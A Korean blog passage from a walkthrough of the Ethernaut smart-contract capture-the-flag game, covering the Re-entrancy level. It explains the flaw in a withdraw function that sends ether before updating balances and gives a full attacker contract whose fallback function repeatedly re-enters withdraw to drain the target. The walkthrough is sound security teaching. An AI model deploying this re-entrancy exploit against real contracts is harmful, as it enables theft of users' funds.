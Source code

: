 }

contract King {
}
{% endhighlight %}

이처럼 외부 계정(EOA 또는 CA일 수도 있습니다)에 트랜잭션을 전송할 때 항상 실패할 가능성을 고려하여 코드를 작성해야 합니다.


### 10. Re-entrancy (difficulty 6/10)

이번 문제는 컨트랙트의 이더를 전부 훔쳐야 패스할 수 있습니다.

> The goal of this level is for you to steal all the funds from the contract.

이 컨트랙트는 balances라는 mapping 타입의 "장부"를 가지고 있고 donate payable 메소드가 호출되면 받은 이더를 balances에 기록합니다(컨트랙트 계정에 이더를 소유합니다).
장부에 기록된 계정은 withdraw 메소드로 인출할 수 있습니다. 물론 자신이 "기부받은" 금액 이내에서 말이죠.

이 컨트랙트의 문제는 인출하는 메소드 withdraw에 있습니다. 이더를 전송하는 것과, 전송 후 장부 balances에 그 내역을 반영하는 것이 하나의 메소드에 구현되어 있습니다.
그것도 이더를 전송한 후에 장부에 기록한다는 것입니다. 문제는 실행 <b>"순서"</b>입니다. 즉 장부에서 이더를 지급했다는 기록을 하기 전에 다시 withdraw 메소드를 호출할 수 있다면(Re-entrancy)
어떻게 될까요?

{% highlight javascript %}
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
        if(msg.sender.call.value(_amount)()) {
            _amount;
        }
        balances[msg.sender] -= _amount;
    }
}
{% endhighlight %}


반신반의 하겠지만 그것이 가능합니다. 아래 컨트랙트를 살펴보겠습니다.

{% highlight javascript %}
pragma solidity ^0.4.25;

contract GoneWithEther {

    address public owner;
    Reentrance public reentrance;

    constructor(address _addr) public payable {
        owner = msg.sender;
        reentrance = Reentrance(_addr);
    }

    modifier onlyOwner {
        require (msg.sender == owner, "Only owner can call this function.");
        _;
    }

    function donate() external onlyOwner {
        reentrance.donate.value(0.5 ether)(address(this));
    }

    function() public payable {
        if (address(reentrance).balance > 0 ) {
            reentrance.withdraw(0.5 ether);
        }
    }

    function kill() external onlyOwner {
        selfdestruct(owner);
    }
}


[ethernaut]: https://ethernaut.zeppelin.solutions/
[ethernaut-gh]: https://github.com/OpenZeppelin/ethernaut
[faucet]: https://faucet.metamask.io/
[remix]: http://remix.ethereum.org/
[safemath]: https://github.com/OpenZeppelin/openzeppelin-solidity/blob/master/contracts/math/SafeMath.sol
[storage]: https://solidity.readthedocs.io/en/v0.4.25/miscellaneous.html?highlight=storage
[ropsten-etherscan]: https://ropsten.etherscan.io/tx/0x4c842eb4222b8ebdef4b31803821411b8e0051566b7a828c0cad8761b076718e#internal